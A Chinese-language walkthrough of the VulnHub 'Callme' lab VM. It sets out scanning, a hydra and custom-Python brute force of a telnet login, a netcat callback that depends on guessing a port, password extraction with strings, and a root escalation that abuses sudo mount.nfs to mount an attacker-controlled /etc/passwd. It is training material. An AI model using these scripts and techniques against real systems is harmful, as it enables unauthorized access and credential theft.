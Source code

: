 # [vulnhub]: callme

Time: 2021-2-11

Author: badbird

---

Target: 192.168.31.96

Attack: 192.168.31.100

---

先使用arp-scan来一波主机发现，因为这个比nmap快很多，发现了目标再用nmap扫描单个IP就好。

arp-scan --interface=eth0 --localnet

![image-20210211084249051](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211084249051.png)



nmap -sS -sV -T5 -A 192.168.31.96 (真的是太慢了，不知道有没有啥好的加速参数)

![image-20210211085203192](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211085203192.png)

可以看到，开放了22、111、2323端口。其中发现2323端口有点意思，nmap返回了在2323端口尝试登录的一些信息。（其实22/ssh也可以尝试一下枚举用户名爆破密码，但是2323提示太明显了）

这个端口开放的服务是3d-nfsd，没见过就google一下：

![image-20210211085602751](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211085602751.png)

看到了，telnet服务，连接试试看：

![image-20210211085741900](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211085741900.png)

常用的判断用户是否存在的办法：错误的用户名会提示用户不存在，正确的用户名会提示该用户密码错误。

现在知道了username：admin，接下来就是爆破密码。

尝试使用hydra爆破：

hydra -l admin -P /usr/share/seclists/Passwords/probable-v2-top1575.txt 192.168.31.96 telnet -s 2323

（Seclists是个在github上的密码大集合）

![image-20210211092712275](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211092712275.png)

没等他运行结束，估计是有点问题，随后又尝试了一下metasploit的auxiliary/scanner/telnet/telnet_login模块

依然没有成功，这就有点蹊跷了。此时有两种继续的办法：1.换大字典。2.自己写破解脚本。3.[google国外大佬的wp](https://al1enum.github.io/vulnhub/callme/index.html)

懂的都懂。

这里会想到自己写破解脚本是因为看了大佬的解答。

复习一下[python socket编程](https://www.liaoxuefeng.com/wiki/1016959663602400/1017788916649408)。

最后的脚本:(增加了个没啥用的进度条)。这种脚本的编写是需要根据连接情况和收到的消息进行不断测试修改的，需要确定什么时候、收到多少数据之后应该发送数据，比如用户名密码的输入。

```python
import socket
import time
import sys

print("[~]This is a script for a VM(Callme) for Foxlox")
with open('/usr/share/seclists/Passwords/probable-v2-top1575.txt') as passwords:
    for (passwd,i) in zip(passwords,range(1,1575)):
        print("\r", end="")
        print("Brute force is cracking... {}% ".format(i // (1575/100)), "▋" * (i // (1575//20)),end="")
        username = b'admin'			#设置用户名
        ip = '192.168.31.96'
        port = 2323
        s = socket.socket()
        s.connect((ip, port))		#注意参数是个元组哦
        s.recv(1024)
        s.recv(1024)
        s.send(username + b'\r\n')		#发送数据一定要加\r\n，符合包的标准。
        s.recv(1024)
        s.send(passwd.strip().encode() + b'\r\n')	#从字典中加载的密码一定要转换成字节字符串
        re = s.recv(1024)
        s.recv(1024)
        sys.stdout.flush()				#清空输出，刷新进度条用的。。。
        time.sleep(0.01)
        if "Wrong password for user admin" not in str(re):		#密码正确的条件
            print("\n[*] Get it! PASSWORD is:")
            print(passwd)
            break

```

运行运行运行结果！

![image-20210211102525825](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211102525825.png)

现在来手工telnet连接一下：

![image-20210211102758169](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211102758169.png)

可以想到我们之前为什么没有破解成功了，根据提示，告诉我们没有准备好，应该是端口号，我们需要在本地监听它返回的这个端口号，然而每次返回的大写英文4位数字都不一样，现在的思路就是，碰运气：

nc在本地监听几个端口（2000~3000内选几个即可），然后循环连接192.168.31.96。等刚好两边端口号对上，我们就能连上了。

![image-20210211103723926](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211103723926.png)

循环登录的话，只需要在刚才破解的代码上做一些修改：

```python
import socket
import time
import sys

print("[~]This is a script for a VM(Callme) for Foxlox")
while True:
    username = b'admin'			#设置用户名
    password = b'booboo'		#设置密码
    ip = '192.168.31.96'
    port = 2323
    s = socket.socket()
    s.connect((ip, port))		#注意参数是个元组哦
    s.recv(1024)
    s.recv(1024)
    s.send(username + b'\r\n')		#发送数据一定要加\r\n，符合包的标准。
    s.recv(1024)
    s.send(password + b'\r\n')	#从字典中加载的密码一定要转换成字节字符串
    re = s.recv(1024)
    print(s.recv(1024))
```

运行该脚本，等两分钟就会中奖了。

还有一种办法就是写段代码将大写英文数字转换成阿拉伯数字，然后直接执行nc开始监听。它提示端口后会有一点点延迟。

当啷当啷，打字的这会功夫已经中奖了：

![image-20210211105208134](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211105208134.png)

可以看到是wine shell。这就要用   dir	type命令了。

![image-20210211105537852](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211105537852.png)

startup这个文件看意思应该有点用。

![image-20210211111651848](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211111651848.png)

这里又到了知识盲区了，百度recall server看看是个啥

![image-20210211111955252](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211111955252.png)

大概是个记录密码的小工具？

这里用到了[strings命令](https://blog.csdn.net/technologyleader/article/details/81912312)太强了这个命令，打印文件的可打印字符，所有文件。

当然，需要先把recallserver.exe下载到本地，在靶机端用python起个服务就好。python -m http.server 1234

然后用wget下载到本地，

使用strings命令

![image-20210211122229449](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211122229449.png)

查看string.txt，直接搜索pass，得到了个疑似密码的字符串，尝试ssh登录一下fox用户（因为刚才telnet连进去就是fox的目录）。

![image-20210211122354508](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211122354508.png)

![image-20210211124220484](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211124220484.png)

然而当想要sudo su root得到root权限的时候，却得到fox用户不能这么做。。

![image-20210211124356525](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211124356525.png)

查看一下fox的sudo权限：sudo -l

![image-20210211125400606](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211125400606.png)

哦吼，[mount.nfs](https://www.linuxcool.com/mount-nfs)

那么，直接在kali本地新建一个root权限的账户，再用靶机挂载kali的/etc/passwd，这不就相当于在靶机上有了这个用户了吗，且密码是自定义的，使用openssl passwd -1（是1不是l）生成密码哈希值并按照格式写入/etc/passwd

靶机上挂载 /etc

首先要在kali上设置/etc允许被挂载

![image-20210211130246674](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211130246674.png)

启用nfs服务

![image-20210211130501080](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211130501080.png)

靶机上挂载、查看

![image-20210211130442421](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211130442421.png)

![image-20210211130537667](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211130537667.png)

切换到hack用户-->取得root权限-->进入root目录-->get flag

![image-20210211130835349](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210211130835349.png)
